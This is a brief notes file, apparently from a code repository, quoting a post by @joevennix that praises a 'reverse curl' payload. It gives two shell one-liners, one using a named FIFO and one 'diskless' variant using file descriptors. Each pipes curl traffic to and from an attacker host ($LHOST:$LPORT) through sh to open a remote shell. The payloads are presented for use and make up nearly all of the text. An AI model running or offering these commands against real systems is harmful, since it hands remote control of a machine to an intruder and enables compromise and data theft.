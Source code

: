 # notes

@joevennix writes:

````
reverse curl is a solid payload:

P=$(mktemp -u);mkfifo $P;curl -sNkT . https://$LHOST:$LPORT<$P|sh>$P

(diskless on linux):
  
{ curl -sNkT . https://$LHOST:$LPORT </dev/fd/3| sh 3>&-;} 3>&1|:
````
